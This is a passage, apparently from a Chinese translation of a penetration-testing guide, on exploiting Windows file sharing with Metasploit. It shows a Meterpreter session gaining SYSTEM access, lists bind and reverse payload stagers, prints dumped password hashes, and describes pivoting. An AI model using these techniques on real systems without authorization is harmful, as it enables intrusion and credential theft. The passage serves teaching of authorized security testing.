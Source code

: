 ```
[*] Sending stage (957487 bytes) to 172.30.42.18

[*] Meterpreter session 1 opened (172.30.42.20:4444 -> 172.30.42.18:1048) at 2016-05-28 13:38:09 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```

通用 Internet 文件系统(CIFS)服务是 Windows 通过网络共享文件的方式。这实质上是下一代服务器消息块(SMB)协议。如果您有一个共享文件的 Windows 系统`—`，并且直到最近，大多数 Windows 安装都默认启用文件共享`—`，您可以在这些 Windows 系统上监听该端口。

设置好变量后，我们告诉 Metasploit 利用漏洞，Metasploit 将漏洞发送到目标，触发操作系统运行 Metasploit 也发送的有效负载。本例中的有效负载是 Meterpreter，它是一个小型命令解释器，为您提供了一种以完全中立的方式与系统进行交互的方法。这意味着您不必了解 Windows 命令或 Linux 命令。你所需要知道的就是如何与 Meterpreter 交互，以便从被开发的系统中得到你所需要的东西。Metasploit 附带了大量的有效负载，您可以在不同的情况下使用。如果您查看漏洞利用运行时的输出，可以看到 Metasploit 系统(172.30.42.20)正在向目标(172.30.42.18)发送网络连接。如果有防火墙挡路，这种可能性可能并不总是存在。您可能需要让被利用的系统向您发送一个网络连接。这被称为反向连接，Metasploit 具有这方面的有效负载。以下是所有可用有效载荷的一小部分示例:

```
   windows/metsvc_bind_tcp
normal  Windows Meterpreter Service, Bind TCP
   windows/metsvc_reverse_tcp
normal  Windows Meterpreter Service, Reverse TCP Inline
   windows/patchupdllinject/bind_hidden_ipknock_tcp
normal  Windows Inject DLL, Hidden Bind Ipknock TCP Stager
   windows/patchupdllinject/bind_hidden_tcp
normal  Windows Inject DLL, Hidden Bind TCP Stager
   windows/patchupdllinject/bind_ipv6_tcp
normal  Windows Inject DLL, Bind IPv6 TCP Stager (Windows x86)
   windows/patchupdllinject/bind_ipv6_tcp_uuid
normal  Windows Inject DLL, Bind IPv6 TCP Stager with UUID Support (Windows x86)
   windows/patchupdllinject/bind_nonx_tcp
normal  Windows Inject DLL, Bind TCP Stager (No NX or Win7)
   windows/patchupdllinject/bind_tcp
normal  Windows Inject DLL, Bind TCP Stager (Windows x86)

```

一旦您入侵了系统，您就可以使用 Meterpreter 从目标收集信息，包括所有的密码散列，如下所示。在像 Windows 这样有图形化桌面的系统上，你可以使用 Meterpreter 来获取桌面的屏幕截图。这将证明你设法进入了系统，并且你可以在以后的报告中写出来。Meterpreter 是专门为渗透测试人员创建的高功能命令解释器，它提供了您在操作系统的内置命令解释器中找不到的功能。例如，Windows 不允许您像这样轻松地转储密码数据库的内容

```
meterpreter > hashdump
Administrator:500:ed174b89559f98ab93e28745b8bf4ba6:5f7277b8635625ad2d2d551867124dbd:::
ASPNET:1003:5b8cce8defe0d65545aefda15894afa0:227510be54d4e5285f3537a22e855dfc:::
Guest:501:aad3b435b51404ea1ad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:7e86e0590641f80063c81f86ea9efa9c:ef449e873959d4b1536660525657047d:::
SUPPORT_388945a0:1002:aad3b435b51404eefad3b435b51404ee:2e54afff1eaa6b62fc0649b715104187:::

```

一旦您控制了一个系统，您就可以使用它来进一步进入目标网络。您可能会通过使用受威胁的系统在网络中横向移动，以获得对同一网络中其他系统的可信访问。您还可以将受损系统用作路由器，将流量从您的系统传送到目标系统所连接的其他网络中。这就是所谓的`pivoting`。
